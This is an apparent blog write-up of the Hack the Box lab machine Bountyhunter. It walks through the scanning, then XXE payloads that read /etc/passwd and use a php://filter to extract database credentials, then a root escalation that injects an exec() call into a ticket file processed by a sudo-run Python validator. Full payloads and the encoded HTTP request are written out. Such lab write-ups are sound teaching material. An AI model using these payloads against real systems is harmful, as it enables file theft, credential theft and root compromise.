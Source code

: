 +++
author = "Nick"
categories = ["hack the box", "Linux", "easy", "XXE", "burpsuite", "php filters", "python", "GTFObins"]
date = 2021-11-20T15:01:08Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2021/08/bounty.png"
slug = "hack-the-box-bountyhunter"
tags = ["hack the box", "Linux", "easy", "XXE", "burpsuite", "php filters", "python", "GTFObins"]
title = "Hack the Box - Bountyhunter"

+++


Welcome! Today we are going to be doing the Hack the Box machine - Bountyhunter. This is listed as an easy Linux machine. Let's see what's in store!

As always, we start with a full `nmap` scan. Here are the resutlts:

```
Nmap scan report for 10.10.11.100
Host is up (0.049s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Bounty Hunters
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are only two ports open. Let's see what's being hosted on port 80. When we land on the page, we see a standard landing page. Digging around, we find a `log_submit.php` page. When we fill out the data required, we get the following response.

{{< figure src="__GHOST_URL__/content/images/2021/08/image-28.png" >}}

Since this entry point will be a web entry point. We'll do everything going forward inside `Burpsuite`. We check the request and we see that it's coming accross as base64 encoded XML data.

{{< figure src="__GHOST_URL__/content/images/2021/08/image-27.png" >}}

{{< figure src="__GHOST_URL__/content/images/2021/08/image-29.png" >}}

Before we dig much futher into the web requests, we're going to start some basic enumeration and see what we can find. We know there is a endpoint called `tracker_diRbPr00f314.php`, this would lead us to believe we won't be able to enumerate it.

Command:
`gobuster dir -u http://10.10.11.100 -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -x .php,.old,.bak -t 60 -b 403,404`

This runs but doesn't find much of anything, shocker. Now, back to the original request. We know that `XXE` is a common attack vector, it's possible it's our foothold here.

The above is a malformed `base64` encoding. The `%3D` is URL encoding for `=`. Thus our full data set would be:

`PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT4xPC90aXRsZT4KCQk8Y3dlPjI8L2N3ZT4KCQk8Y3Zzcz4zPC9jdnNzPgoJCTxyZXdhcmQ+NDQ8L3Jld2FyZD4KCQk8L2J1Z3JlcG9ydD4=`

Giving us the following data being sent:

{{< figure src="__GHOST_URL__/content/images/2021/08/image-30.png" >}}

Now we need to craft a PoC. You can read more on [XXE here](https://portswigger.net/web-security/xxe). We'll use the basic example they had listed for our PoC. Here is our payload:

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
	  <!DOCTYPE foo [ 
        <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
		<bugreport>
		<title>1</title>
		<cwe>2</cwe>
		<cvss>3</cvss>
		<reward>&xxe;</reward>
		</bugreport>
```

Once we have our payload created, we need to convert it to base64. Then we need to convert that base64 to URL encoding, since it will have some `+` signs in it. Overall our request looks like this:

```
POST /tracker_diRbPr00f314.php HTTP/1.1
Host: 10.10.11.100
Content-Length: 305
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://10.10.11.100
Referer: http://10.10.11.100/log_submit.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

data=PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KCSAgPCFET0NUWVBFIGZvbyBbIDwhRU5USVRZIHh4ZSBTWVNURU0gImZpbGU6Ly8vZXRjL3Bhc3N3ZCI%2bIF0%2bCgkJPGJ1Z3JlcG9ydD4KCQk8dGl0bGU%2bMTwvdGl0bGU%2bCgkJPGN3ZT4yPC9jd2U%2bCgkJPGN2c3M%2bMzwvY3Zzcz4KCQk8cmV3YXJkPiZ4eGU7PC9yZXdhcmQ%2bCgkJPC9idWdyZXBvcnQ%2b
```

You can see we are only trying to view the `/etc/passwd` file as our PoC. We put it into `Burp` and see what we get.

{{< figure src="__GHOST_URL__/content/images/2021/08/XXE.gif" >}}

It works! Perfect! Now we need to leverage this to obtain a foothold. Based on the above data, we know the user we are after - `development`. After attempting to read `id_rsa` and `db.php` files with the traditional method of `file:///`, we need to leverage something different. We need to use a `php filter` to obtain access to the files we want.

Syntax:
`"php://filter/convert.base64-encode/resource=/var/www/html/db.php"`

This will be the payload portion of our `XXE`. Here's our new `XXE` payload.

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
	  <!DOCTYPE foo [ 
              <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/db.php"> 
                 ]>
		<bugreport>
		<title>1</title>
		<cwe>2</cwe>
		<cvss>3</cvss>
		<reward>&xxe;</reward>
		</bugreport>
```

After we convert this to base64 and URL encode it, we get a valid response:

{{< figure src="__GHOST_URL__/content/images/2021/08/image-32.png" >}}

A base64 encoded string. When we decode it, we get the following:

{{< figure src="__GHOST_URL__/content/images/2021/08/image-33.png" >}}

A set of credentials! Finally! Now, we see a `testuser` account but I'm willing to bet, that these credentials will also work for the user `development` as well. Let's try to leverage them to `SSH`.

Sure enough, they do!

{{< figure src="__GHOST_URL__/content/images/2021/08/image-34.png" >}}

We are able to log in and get the `user.txt` flag! Once we're in, we check `sudo -l` to see if there are any easy hints for priv esc.

{{< figure src="__GHOST_URL__/content/images/2021/08/image-36.png" >}}

Sure enough, we have access to `ticketValidator.py`. When we view the file, we see that there are some basic requirements to the file we want to read.

* It must be a `.md` file
* It must start with # Skytrain Inc
* The second line must start with ## Ticket to
* The third line must be __Ticket Code __ 
* The fourth line can be the code we want to execute. It has to start with `**`. 
* The code checks for `% 7 == 4`. That number is 102 or 4.
* Then it will split the file along a `+` then run the code AFTER that split.  

So we'll create a file called `rootme.md` and add our first three lines.

```
# Skytrain Inc
## Ticket to rootsville
__Ticket Code:__
```

Now we can give it our malicious code. We can drop right to a r[oot shell via python](https://gtfobins.github.io/gtfobins/python/). Remember, we still need to use the exec() function in order to get execution.

Here's our final code:

```
# Skytrain Inc
## Ticket to rootsville
__Ticket Code:__
**102+6969 and exec("import os;os.system('cat /root/root.txt')")
```

Then we run our script.

Command:
`sudo python3.8 /opt/skytrain_inc/ticketValidator.py`

{{< figure src="__GHOST_URL__/content/images/2021/08/bountyroot.gif" >}}

There we have it, the `root.txt` flag!



